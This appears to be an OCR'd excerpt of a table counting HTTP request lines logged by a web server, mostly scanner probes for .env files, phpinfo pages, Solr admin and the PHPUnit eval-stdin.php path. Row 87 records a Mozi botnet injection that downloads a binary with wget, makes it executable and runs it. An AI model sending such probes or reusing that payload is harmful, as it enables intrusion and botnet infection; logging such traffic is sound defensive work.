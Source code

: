 |  78 |                     2 | GET /.env.save HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                      |
|  79 |                     2 | GET /system/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                    |
|  80 |                     2 | GET /solr/admin/info/system?wt=json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                 |
|  81 |                     2 | HEAD / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                              |
|  82 |                     2 | GET /info.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                       |
|  83 |                     2 | POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                            |
|  84 |                     2 | POST /Autodiscover/Autodiscover.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                 |
|  85 |                     2 | GET /phpinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                    |
|  86 |                     2 | GET /.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                          |
|  87 |                     2 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                        |
|  88 |                     2 | GET /.env.old HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                       |
|  89 |                     2 | GET /users/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
|  90 |                     2 | GET /core/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                      |